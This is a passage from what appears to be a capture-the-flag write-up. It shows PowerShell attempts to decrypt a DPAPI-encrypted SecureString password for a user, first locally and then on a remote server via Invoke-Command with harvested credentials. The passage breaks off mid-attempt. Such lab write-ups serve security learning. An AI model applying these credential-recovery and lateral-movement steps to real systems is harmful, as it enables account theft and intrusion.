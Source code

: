 #### Failure #1

My initial thought is to use that `$securepasswd` to get a `PSCredential`
object for jmorgan on Acute-PC01:

    
    
    PS C:\Utils> $securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'                                   
    PS C:\Utils> $passwd = $securepasswd | ConvertTo-SecureString
    ConvertTo-SecureString : Key not valid for use in specified state.
    At line:1 char:27                                   
    + $passwd = $securepasswd | ConvertTo-SecureString
    +                           ~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : InvalidArgument: (:) [ConvertTo-SecureString], CryptographicException
        + FullyQualifiedErrorId : ImportSecureString_InvalidArgument_CryptographicError,Microsoft.PowerShell.Commands.ConvertToSecureStringCommand 
    

That’s because these secure password strings are encrypted with information
only available on the computer it was encrypted with as the user it was
encrypted with.

#### Failure #2

Then perhaps I can decrypt the password on ATSSERVER as imonks. The code does
work there:

    
    
    PS C:\Utils> Invoke-Command -ScriptBlock { C:\users\imonks\desktop\wm.ps1 } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
    
    PSComputerName       : ATSSERVER
    RunspaceId           : fc350a1c-6b96-49a3-8901-0a3bf4c0b6c2
    ObjectId             : {1}\\ACUTE-PC01\root/Microsoft/Windows/Storage/Providers_v2\WSP_Volume.ObjectId="{8ccfebca-48c0-
                           11ec-9ffe-806e6f6e6963}:VO:\\?\Volume{0eed1261-0000-0000-0000-100000000000}\"
    PassThroughClass     : 
    PassThroughIds       : 
    PassThroughNamespace : 
    PassThroughServer    : 
    UniqueId             : \\?\Volume{0eed1261-0000-0000-0000-100000000000}\
    AllocationUnitSize   : 4096
    DedupMode            : 4
    DriveLetter          : 
    DriveType            : 3
    FileSystem           : NTFS
    ...[snip]...
    

I’ll put all the commands I need into the `ScriptBlock`, and get the plaintext
password. Unfortunately, it doesn’t work:

    